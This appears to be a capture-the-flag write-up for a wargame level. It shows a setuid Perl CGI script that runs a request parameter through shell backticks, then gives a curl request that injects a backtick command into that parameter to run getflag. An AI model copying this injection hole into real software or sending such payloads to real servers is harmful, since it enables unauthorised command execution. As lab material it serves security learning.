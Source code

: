 ## Solutions

```console
~$ ls -l
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
```
Perl script file found! Owner is flag04  
Lets exploit it

```perl
#!/usr/bin/perl
# localhost:4747		
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));

```

```console
$~ curl localhost:4747/?x=\`getflag\`
```
